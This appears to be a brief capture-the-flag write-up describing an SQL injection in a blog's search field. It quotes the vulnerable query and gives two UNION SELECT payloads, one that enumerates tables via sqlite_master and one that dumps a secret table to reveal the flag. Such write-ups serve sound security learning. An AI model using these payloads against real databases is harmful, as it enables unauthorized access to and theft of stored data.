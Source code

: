 # Challenge `Wow, it can't be more juicy than this!` writeup

- Vulnerability: SQL injection

- Where: search field [SQL: SELECT id, title, content FROM blog_post WHERE title LIKE '%'%' OR content LIKE '%'UNION SELECT%']

- Impact: attacker is able to inject a sql query and get the secret blog post(article)

---

## Steps to reproduce

1. Insert "'UNION SELECT name, tbl_name, sql FROM sqlite_master WHERE type='table' -- " on search field
 - 1.1. secret_blog_post is now visible.
2. Insert "'UNION SELECT id, title, content FROM secret_blog_post -- "
 - 2.1. Reminder with the flag is now visible.
